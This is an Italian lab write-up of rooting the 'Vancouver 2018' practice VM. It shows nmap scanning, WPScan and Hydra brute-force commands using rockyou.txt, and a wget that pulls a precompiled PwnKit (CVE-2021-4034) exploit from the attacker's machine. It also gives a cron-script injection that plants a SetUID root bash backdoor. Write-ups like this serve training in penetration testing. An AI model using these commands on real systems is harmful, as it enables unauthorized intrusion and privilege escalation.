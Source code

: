 # 🛡️ **Vancouver 2018 Exploitation Report**

## 📋 **Descrizione Generale**
Questa relazione racconta le quattro giornate intense di lavoro spese per sfruttare ogni singolo punto debole della VM assegnata. Non è stato un processo lineare, e spesso mi sono trovato a pensare di essermi incastrato in un vicolo cieco, ma alla fine ogni tentativo, errore e intuizione ha portato alla tanto desiderata shell **root**.

Questa storia è una combinazione di ostinazione, pazienza e, soprattutto, l'arte di sfruttare le vulnerabilità in posti che inizialmente sembravano insignificanti.

---

## ⚙️ **Configurazione dell'Ambiente**
1. **Importazione e Avvio della VM**:
   - Ho iniziato importando la VM in **VirtualBox/VMware**. L'avvio sembrava andare liscio, ma la vera battaglia stava per cominciare.

2. **Identificazione IP**:
   - Con una scansione rapida di rete usando **Nmap**, ho trovato l'indirizzo della macchina:
     ```bash
     nmap -sn 192.168.1.0/24
     ```
   - L'indirizzo IP della macchina target è emerso chiaramente: `192.168.1.170`.

---

## 🔍 **Fase di Scansione e Accesso Iniziale**

### 1️⃣ **Scansione delle Porte e Servizi**
Partiamo dalla base. Ho eseguito una scansione con **Nmap**, che mi ha rivelato un paio di servizi attivi:
- **Porta 80 (HTTP)**: un classico, un servizio web era in agguato.
- **Porta 21 (FTP)**: qualcosa di interessante da esplorare più a fondo.

Era solo l'inizio, ma già sapevo che FTP avrebbe rivelato qualcosa.

---

### 2️⃣ **Accesso FTP e la Prima Sorpresa**
Con un accesso FTP anonimo (chi è che lascia FTP così?), ho trovato il file **`users.txt.bk`**. 
Non è stato nulla di speciale, solo una lista di nomi utente, ma qui la pazienza è la chiave. Ogni pezzetto di informazione conta.

---

### 3️⃣ **WordPress: L'Inizio del Divertimento**
Inizialmente, con **Gobuster** non ero riuscito a individuare nulla di interessante. Tuttavia, controllando il file **robots.txt**, ho trovato un riferimento nascosto alla directory **/backup_wordpress**. 

Una volta scoperta questa directory, ho iniziato a mettere le mani nel servizio WordPress.

Per enumerare gli utenti e testare combinazioni di password comuni, ho lanciato **WPScan** con il mio token (inserirò un comando più generico senza token):
   ```bash
   wpscan --url http://192.168.1.170/backup_wordpress --enumerate u --passwords rockyou.txt
   ```

Dopo lunghi minuti di attesa, ecco la combinazione perfetta:
- **Username**: `john`
- **Password**: `enigma`

Con queste credenziali, ho avuto accesso al pannello di WordPress. Qui ho caricato un **plugin malevolo** contenente una reverse shell. Finalmente, **www-data** era mio. Ma con un utente di basso livello, cosa potevo fare? Dannazione...

---

## 🔒 **Cracking dell'SSH Tramite Hydra**
La shell **www-data** sembrava un vicolo cieco.
Prima di arrendermi in realtà con tutto quanto dalla frustrazione, ho deciso di provare un attacco **Hydra** sul servizio SSH usando la lista di utenti recuperati con poche speranze, finché mi imbatto in anne, capendo che fosse l'unica accessibile con password in ssh.
Utilizzando un bel comando hydra ottimizzato per mandare molte richieste:

```bash
hydra -l anne -P /usr/share/wordlists/rockyou.txt -t 64 -V -W 1 ssh://192.168.1.170
```

**EUREKA**, finalmente trovo:
- **Password**: `princess`

Con queste credenziali, ho effettuato il login SSH:
   ```bash
   ssh anne@192.168.1.170
   ```

A questo punto, la sorpresa: `anne` aveva i privilegi di **sudo** abilitati. Con un semplice comando:
   ```bash
   sudo su
   ```
   
Avevo ottenuto l'accesso **root** senza dover fare altro. Ma, ironia della sorte, non ho voluto fare **assolutamente nulla** con questo accesso root. 
Ho chiuso l'accesso SSH e sono tornato alla mia reverse shell caricata tramite  WordPress dove ero user di basso privilegio.

---

# 🏆 **Escalation dei Privilegi Alternativa**

### 1️⃣ **Kernel Exploit - PwnKit (CVE-2021-4034)**

Avevo sentito parlare di **PwnKit**. Era il momento di metterlo alla prova. 
E' stato qui che ho deciso di intraprendere nuove strade **SENZA AUTENTICAZIONE** che mi permettessero di raggiungere l'obiettivo, informandomi dunque sulle vulnerabilità della macchina target decisi di affrontare **PwnKit**. Ho sbattuto la testa nel tentativo di **compilare l'exploit** direttamente sulla macchina target e anche da Kali con le dipendenze necessarie teoricamente corrette. Dopo svariati errori e tentativi falliti, ho abbandonato l'idea della compilazione e sono passato alla soluzione più pratica: usare l'exploit **precompilato**.


Dopo aver scaricato il precompilato 32 bit:

1. Ho avviato un server HTTP sulla mia macchina Kali:
   ```bash
   python3 -m http.server 8080
   ```
2. Ho scaricato l'exploit precompilato sul target:
   ```bash
   wget http://192.168.1.165:8080/PwnKit32 -O /tmp/PwnKit32
   chmod +x /tmp/PwnKit32
   ```
3. Ho eseguito l'exploit:
   ```bash
   ./PwnKit32
   ```
4. **Magia pura**. Una volta eseguito, avevo accesso **root**:
   ```bash
   whoami
   ```
   **Output**: `root`.

![ROOTWITHPWNKIT](./ROOTWITHPWNKIT.png)

---

### 2️⃣ **Cron Job Exploit: L'Ultimo Colpo**
Per non farmi mancare nulla, già di mio sospettavo di cron jobs vulnerabili, dunque in seguito a indagine mirata ho individuato un cron job che eseguiva lo script **`/usr/local/bin/cleanup`** come **root**, ma con permessi **world-writable**. 

Ho pensato: "Wow, è stato lì tutto questo cazzo di tempo" e "It was him, it was him since the beginning".

1. Ho modificato lo script per creare una **backdoor**:
   ```bash
   echo "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash" > /usr/local/bin/cleanup
   ```
2. Ho forzato l'esecuzione del cron job:
   ```bash
   /usr/local/bin/cleanup
   ```
3. Il risultato? Una shell **root** con **SetUID**:
   ```bash
   /tmp/rootbash -p
   ```

![CronJobs](./CronJobsSUCCESS.png)

---

## 🎯 **Conclusione**
Quattro giorni di lavoro, frustrazioni, caffè e ore perse a guardare uno schermo, ma alla fine è stato tutto ripagato.

### **Lezioni Imparate**:
- **Ogni piccolo dettaglio conta**. Un file FTP dimenticato può essere la chiave di tutto.
- **Non fermarsi ai primi ostacoli**. La shell **www-data** sembrava un vicolo cieco, ma invece ha aperto altre strade.
- **Mai sottovalutare i cron job**. Permessi sbagliati possono essere devastanti.
- **Verificare sempre i privilegi utente**. A volte la soluzione è più semplice di quanto sembri.
- **La pratica batte la teoria**. Saper aggirare problemi come compilazioni fallite è parte del gioco.


Questo lavoro è stato una vera battaglia contro la macchina, ma alla fine ho vinto e mi sono divertito un mondo!

![Success](./RootSuccess.png)

🎉 **Missione Completata con Successo!** 🚀

